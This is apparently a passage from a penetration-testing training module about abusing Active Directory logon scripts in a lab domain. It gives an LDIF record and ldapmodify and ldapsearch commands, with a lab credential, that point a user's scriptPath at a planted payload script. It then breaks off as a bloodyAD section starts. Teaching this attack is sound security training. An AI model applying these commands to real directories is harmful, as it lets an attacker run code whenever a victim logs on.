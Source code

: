 #### LdapModify

[ldapmodify](https://docs.ldap.com/ldap-sdk/docs/tool-usages/ldapmodify.html) is a powerful command-line utility that allows applying a set of add, delete, modify, and/or modify DN operations to an LDAP directory. We supply the changes we want to perform by using the [LDIF: The LDAP Data Interchange Format](https://ldap.com/ldif-the-ldap-data-interchange-format/) change format, as described in [RFC2849](https://datatracker.ietf.org/doc/html/rfc2849).

In our case, we will use an `LDIF` `modify change record` to modify `eric`'s `scriptPath`, setting it to point to the payload file we implanted in the "EricsScripts" folder within `NETLOGON`. Because `logon scripts` are always expected to be within `NETLOGON`, instead of providing the absolute path of the file, we can use its relative one:

```LDIF
dn: CN=eric,CN=Users,DC=inlanefreight,DC=local
changetype: modify
replace: scriptPath
scriptPath: EricsScripts\logonScript.bat

```

Then, to apply the change, we will use `ldapmodify`, passing to it the `LDIF` file with the `-f` flag:

```shell
ldapmodify -H ldap://10.129.229.224 -x -D '[email protected]' -w 'SecurePassDav!d5' -f logonScript.ldif

modifying entry "CN=eric,CN=Users,DC=inlanefreight,DC=local"

```

To ensure that the attribute has been updated, we will use [ldapsearch](https://docs.ldap.com/ldap-sdk/docs/tool-usages/ldapsearch.html) to retrieve the value of `eric`'s `scriptPath`:

```shell
ldapsearch -LLL -H ldap://10.129.229.224 -x -D '[email protected]' -w 'SecurePassDav!d5' -b "DC=inlanefreight,DC=local" "(sAMAccountName=Eric)" scriptPath

dn: CN=eric,CN=Users,DC=inlanefreight,DC=local
scriptPath: EricsScripts\logonScript.bat

<SNIP>

```

From `ldapsearch`'s output, we will know that `ldapmodify` has successfully updated the attribute.

#### bloodyAD

[bloodyAD](https://github.com/CravateRouge/bloodyAD) is an AD privilege escalation command-line utility that allows us to set and get values of objects' attributes in addition to many other operations.

##### Installation

We can use `pip` to install `bloodyAD` from [PyPi](https://pypi.org/project/bloodyAD/):


[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname